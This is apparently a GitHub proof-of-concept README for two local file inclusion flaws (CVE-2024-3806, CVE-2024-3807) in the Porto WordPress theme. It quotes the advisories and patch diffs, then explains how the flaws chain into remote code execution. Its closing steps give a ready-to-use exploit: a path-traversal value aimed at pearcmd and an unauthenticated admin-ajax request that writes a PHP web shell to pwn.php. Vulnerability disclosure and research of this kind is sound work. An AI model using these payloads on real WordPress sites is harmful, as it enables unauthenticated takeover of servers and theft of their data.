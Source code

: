 # CVE-2024-3806-AND-CVE-2024-3807-Poc
CVE-2024-3806: Porto <= 7.1.0 - Unauthenticated Local File Inclusion via porto_ajax_posts
CVE-2024-3807: Porto <= 7.1.0 - Authenticated (Contributor+) Local File Inclusion via Post Meta

Porto 7.1.0: https://drive.google.com/file/d/1BWJ_xfjNetogvfMqKzXtAWEvRJOGa4DF/view?usp=sharing

Porto 7.1.1: https://drive.google.com/file/d/1AQrwMDVkbSIPWNfWhyR_ynJHW0dB9_21/view?usp=sharing

1. CVE-2024-3806: Porto <= 7.1.0 - Unauthenticated Local File Inclusion via porto_ajax_posts: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/porto/porto-710-unauthenticated-local-file-inclusion-via-porto-ajax-posts

Description
The Porto theme for WordPress is vulnerable to Local File Inclusion in all versions up to, and including, 7.1.0 via the 'porto_ajax_posts' function. This makes it possible for unauthenticated attackers to include and execute arbitrary files on the server, allowing the execution of any PHP code in those files. This can be used to bypass access controls, obtain sensitive data, or achieve code execution in cases where php file type can be uploaded and included.

Diff function porto_ajax_posts
File: inc\functions\post.php
```
Old: $post_layout = isset( $_REQUEST['post_layout'] ) ? $_REQUEST['post_layout'] : null;
New: $post_layout = isset( $_REQUEST['post_layout'] ) ? sanitize_file_name( $_REQUEST['post_layout'] ) : null;

Old: get_template_part( 'content-blog', $post_layout );
New: get_template_part( 'content-blog', sanitize_file_name( $post_layout ) );
```
![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/5e158537-1b05-4c87-8002-8d821844ad8c)



2. CVE-2024-3807: Porto <= 7.1.0 - Authenticated (Contributor+) Local File Inclusion via Post Meta: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/porto/porto-710-authenticated-contributor-local-file-inclusion-via-post-meta

Description
The Porto theme for WordPress is vulnerable to Local File Inclusion in all versions up to, and including, 7.1.0 via 'porto_page_header_shortcode_type', 'slideshow_type' and 'post_layout' post meta. This makes it possible for authenticated attackers, with contributor-level and above permissions, to include and execute arbitrary files on the server, allowing the execution of any PHP code in those files. This can be used to bypass access controls, obtain sensitive data, or achieve code execution in cases where php file type can be uploaded and included. This was partially patched in version 7.1.0 and fully patched in version 7.1.1.

Diff File content-blog-full.php: $slideshow_type change to sanitize_file_name( $slideshow_type )  
![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/812c0e9e-155e-4e01-9983-f6efab998b2a)

$slideshow_type = get_post_meta( get_the_ID(), 'slideshow_type', true ); => ````get_post_meta()` is used to get the value of a specific "slideshow_type" from a WordPress post.````

get_the_ID(): https://developer.wordpress.org/reference/functions/get_the_id/
![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/a1aa4c12-5f70-404c-a5a9-0282da94da99)

3. CVE-2024-3806 + CVE-2024-3807 => RCE

File: inc\functions\post.php function porto_ajax_posts

I control variable ````$post_type    = $_REQUEST['post_type'];  ```` and ````$post_layout = isset( $_REQUEST['post_layout'] ) ? $_REQUEST['post_layout'] : null;````

I need $post_type value "post" and $post_layout value "full"

![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/1b7ededa-4cd8-47bd-87f1-6120a37dea17)

![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/439f0a4e-2795-450e-8d33-af1904421520)

content-blog-full.php

![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/03feea13-38b9-4ecf-9df8-6b9ece2a502b)

File: inc\functions\general.php => function porto_get_template_part
![image](https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/e9f47978-a3e7-403f-9d1d-654d673292ca)

Steps to Reproduce: 
1. Create post with slideshow_type value: ```../../../../../../../../../usr/local/lib/php/pearcmd```
2. Send Request

No login required to access: ```<Host>/wp-admin/admin-ajax.php?action=porto_ajax_posts&post_type=post&post_layout=full&+config-create+/&/<?=`$_GET[0]`?>+/var/www/html/pwn.php```

or

No login required to access: ```<Host>/wp-admin/admin-ajax.php?action=porto_ajax_posts&post_type=post&post_layout=full&+config-create+/&/<?=`$_GET[0]`?>+/var/www/html/pwn.php&nonce={{porto_nonce}}```

Poc:

https://github.com/truonghuuphuc/CVE-2024-3806-AND-CVE-2024-3807-Poc/assets/20487674/687f9efd-59b8-4c69-ad12-106d23f175f2
